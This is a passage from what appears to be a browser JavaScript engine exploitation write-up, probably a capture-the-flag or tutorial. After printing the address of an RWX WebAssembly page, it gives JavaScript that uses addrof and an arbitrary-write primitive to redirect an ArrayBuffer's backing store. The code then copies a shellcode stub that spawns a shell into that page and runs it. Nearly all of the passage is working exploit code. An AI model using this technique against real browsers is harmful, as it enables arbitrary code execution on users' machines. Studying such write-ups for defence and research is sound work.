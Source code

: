 ```
// OUTPUT
[+] RWX Wasm page addr: 0x7b54b655000
```

Then, we can copy our shellcode to that place.

```
function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

// reference: https://www.anquanke.com/post/id/267518?hmsr=joyk.com&utm_source=joyk.com&utm_medium=referral#h3-14
var shellcode = [
  0x99583b6a, 0x2fbb4852, 
  0x6e69622f, 0x5368732f,
  0x57525f54, 0x050f5e54
];

copy_shellcode(rwx_page_addr, shellcode);
f();
```
